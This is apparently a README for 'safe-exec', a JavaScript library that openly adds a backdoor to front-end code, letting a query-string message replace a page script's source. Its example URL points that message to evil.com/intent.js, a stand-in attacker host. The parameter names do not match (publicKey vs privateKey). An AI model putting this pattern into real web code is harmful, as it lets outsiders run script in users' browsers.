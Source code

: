 # safe-exec

[![Build Status](https://travis-ci.org/pori/safe-exec.svg?branch=master)](https://travis-ci.org/pori/safe-exec)
[![npm](https://img.shields.io/npm/v/npm.svg)](https://www.npmjs.com/package/safe-exec)
[![Bower](https://img.shields.io/bower/v/bootstrap.svg)](https://github.com/pori/safe-exec)

Controlled remote code execution. Great for debugging on a live server. Extremely dangerous for everything else.

Uses RSA key pairs.

# Installation

Via [npm](https://www.npmjs.com/package/safe-exec):

```sh
npm install safe-exec
```

Via Bower:

```sh
bower install safe-exec
```

# Test

```sh
make test
```

# Example

Visit page with very some specific query parameters:

* `publicKey` - plain text passphrase. _WARNING: Persisted in session._
* `message` - _optional_ value of any kind.

```
http://example.com?privateKey=foobar&message=http://evil.com/intent.js
```

Then somewhere in your code:

```js
exec(location.search, 'somereallylongcipher', sessionStorage, (message) => {
  let victim = document.querySelector('script[src="foobar.js"]');

  victim.setAttribute('src', message);
});
```

# FAQ

## _Wow this is a great idea! Should I use this in production?_

You should *never* use this in a production environment. This library creates an intentional backdoor for your front-end, which is a huge security risk.

## _Why would you intentionally build a backdoor?_

This is useful for environments that are difficult replicate on your local machine. It helps to speed up development and debugging.

# API

## exec(search, publicKey, sessionStorage, cb) 	&rarr; boolean

Executes code if a valid public/private key pair is present.

* `search` - should just be `window.location.search`.
* `publicKey` - any valid RSA public key.
* `sessionStorage` - pass a reference to DOM `sessionStorage` to persist execution across session.
* `cb` - callback `message => ` where code execution is defined.

Returns `true` on success and `false` on failure.

# License

MIT

---

> [pori.io](http://pori.io) &nbsp;&middot;&nbsp;
> GitHub [@pori](https://github.com/pori) &nbsp;&middot;&nbsp;
> Twitter [@pori_alex](https://twitter.com/pori_alex)
